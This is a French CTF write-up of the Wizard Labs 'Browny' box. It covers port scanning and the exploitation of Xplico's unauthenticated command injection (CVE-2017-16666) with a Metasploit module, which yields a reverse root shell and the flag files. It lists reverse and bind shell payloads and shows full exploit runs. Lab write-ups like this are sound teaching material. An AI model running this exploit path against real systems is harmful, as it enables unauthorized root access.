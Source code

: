 ```yaml
---
title: Solution du CTF Browny de Wizard-Labs
date: 2019-05-21 18:05:00
tags: [CTF, WizardLabs]
---
```


Chocoooooo
----------

*Browny* est un CTF de la plateforme *Wizard Labs*. Cette box donnée à une difficulté très faible (1/10) est basée sur Linux.  

On peut lancer un masscan pour lister les ports en écoute :  

```bash
$ sudo masscan -i tun0 -p1-65535 --rate 100 10.1.1.17

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-23 14:32:37 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.1.1.17                                       
Discovered open port 9876/tcp on 10.1.1.17                                     
Discovered open port 30005/tcp on 10.1.1.17                                    
Discovered open port 30001/tcp on 10.1.1.17                                    
Discovered open port 22/tcp on 10.1.1.17                                       
Discovered open port 30004/tcp on 10.1.1.17                                    
Discovered open port 30003/tcp on 10.1.1.17                                    
Discovered open port 30002/tcp on 10.1.1.17
```

On peut ensuite récupérer cet output pour extraire la liste des ports et les rebalancer avec Nmap. La commande suite va formater cette liste de ports en les séparant avec des virgules :  

```bash
$ grep Disco output.txt | cut -d' ' -f4| cut -d/ -f1 |paste -d ',' -s
80,9876,30005,30001,22,30004,30003,30002
```

En fouillant sur le port 80 avec un dirbuster on ne découvre ni dossier ni script PHP :(  

En revanche le service en écoute sur le port 9876, anoncé par Nmap comme un *Apache Hadoop* est en réalité un [Xplico](https://www.xplico.org/) qui est une appli web pour l'analyse forensics réseau.  

On passe ainsi un fichier PCAP et on peut l'explorer via *Xplico*. J'avais déjà utilisé ce soft qui est assez agréable d'utilisation.  

Bien sûr ici on est principalement intéressés par les vulnérabilités du logiciel plutôt que ses fonctionnalités.  

Metasploit dispose d'un module d'attaque dont voici la description et les payloads possibles :  

```
Description:
  This module exploits command injection vulnerability. 
  Unauthenticated users can register a new account and then execute a 
  terminal command under the context of the root user. The specific 
  flaw exists within the Xplico, which listens on TCP port 9876 by 
  default.

Compatible Payloads
===================

   Name                     Disclosure Date  Rank    Check  Description
   ----                     ---------------  ----    -----  -----------
   cmd/unix/bind_awk                         normal  No     Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_netcat                      normal  No     Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/generic                          normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse_awk                      normal  No     Unix Command Shell, Reverse TCP (via AWK)
   cmd/unix/reverse_netcat                   normal  No     Unix Command Shell, Reverse TCP (via netcat)
```

L'exploitation n'a pas été à la hauteur de nos espérances :  

```
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: metnhsrpiveb
[*] Password: igMHipqNbEwaFoBVDqYFPXXQbEkIBCZV
[*] Calculating em_key code of the user
[*] Activating user with em_key = 3ad86d0ada1f91ab6357ca774ad0c2bf
[-] Exploit aborted due to failure: unknown: Could not activated our user. Target may not be vulnerable.
[*] Exploit completed, but no session was created.
```

Il est temps de ce pencher plus sur les détails de la vulnérabilité pour déterminer ce qui cloche.  

[L'article original](https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/) traitant de la faille mentionne une variable qu'il faut plus ou moins deviner car elle correspond au temps Unix et est utilisée pour réussir l'exploitation.  

L'exploit utilise donc le temps qu'il croit être juste... en gros il faut que toute l'exploitation se fasse dans une fenêtre d'une seconde pour ne pas être embêté :p  

Du coup c'est principalement le manque de chance... bref on relance jusqu'à ce que...  

```
[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: svfzydcg
[*] Password: apywpCMpmUjHBHhHnHRzIAMuNJNggYWZ
[*] Calculating em_key code of the user
[*] Activating user with em_key = 2edb880cb905936ab894e54db23abe18
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 7
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 7
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[*] Exploit completed, but no session was created.
```

C'est mieux mais ça n'aboutit toujours pas. Il s'est avéré que l'upload des fichiers ne fonctionnait plus sur la machine pour une raison inconnue. Un reset de la machine plus tard :  

```
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: qvxtanwgruta
[*] Password: KjixXsyUFbhjRiBSITzWbDjciGBsJrOP
[*] Calculating em_key code of the user
[*] Activating user with em_key = 027c6641ad1e36ebddf3ee5cb384e6a7
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 5
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 5
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (10.254.0.29:4444 -> 10.1.1.17:57091) at 2019-02-23 16:33:59 +0100

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/xplico/bin
cd /root
ls
root.txt
cat root.txt
02240138a64d38ed22526a4a0f1ea9a1
ls /home
granit
cd /home/granit
cat user.txt
c553f25184be6a0e81be6cfc000d5b20
```

CTF parfait pour le 4h.  


*Published May 21 2019 at 18:05*
